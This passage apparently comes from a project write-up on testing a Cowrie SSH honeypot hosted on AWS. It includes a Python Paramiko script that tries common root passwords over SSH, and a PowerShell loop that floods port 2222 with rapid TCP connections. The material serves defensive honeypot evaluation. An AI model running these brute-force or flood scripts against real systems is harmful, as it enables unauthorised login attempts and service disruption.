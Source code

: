 #### Benign Hydra
To simulate a brute-force attack in a controlled and ethical manner, a custom Python script
was developed using the Paramiko library. The script was designed to mimic tools like Hydra
by attempting multiple SSH login attempts against Cowrie.

To ensure compliance with AWS’s Acceptable Use Policy, the script was configured with a
limited list of common passwords and included a delay between each login attempt to avoid
triggering automated abuse detection systems.
```python
from paramiko import *
from time import *

target_ip = "<EC2_PUBLIC_IP>"
port = "2222"
username = "root"
passwords = ["123456", "admin", "password", "toor", "qwerty", "letmein", \
                "malak", "qabas", "cloud", "2025"]
delay = 1 

print(f"[+] Starting brute-force simulation on {target_ip}...")

for password in passwords:
    print(f"[*] Trying password: {password}")
    ssh = SSHClient()

    try:
        ssh.set_missing_host_key_policy(AutoAddPolicy())
        ssh.connect(target_ip, port=port, username=username, password=password, timeout=5)
    except AuthenticationException:
        print(f"[-] Failed login with '{password}' (expected)")
    except Exception as e:
        print(f"[!] Error: {e}")
    finally:
        ssh.close()
        sleep(delay)

print("[+] Simulation complete!")
```
#### Scalability 
##### PowerShell-Based TCP Flood Simulation (Consecutive)
To further evaluate the responsiveness and stability of the deployed Cowrie honeypot, a
scripted test was conducted using PowerShell on a Windows host. The goal was to simulate
repeated SSH connection attempts to the Cowrie service running on port 2222 of the EC2
instance.
```powershell
1..100 | ForEach-Object {
  try {
    $tcpClient = New-Object System.Net.Sockets.TcpClient
    $tcpClient.Connect("<EC2_PUBLIC_IP>", 2222)
    $tcpClient.Close()
    Write-Host "Connection $_ succeeded"
  } catch {
    Write-Host "Connection $_ failed"
  }
  Start-Sleep -Milliseconds 100
}
```
The script iterates 100 times, attempting to establish a new TCP connection to the honeypot
on each iteration. A 100 ms delay is inserted between connections to control the rate and
avoid overwhelming the client system. It was later scaled to iterate 500 times with a 1 ms
delay and then 100 times with a 0.1 ms delay.
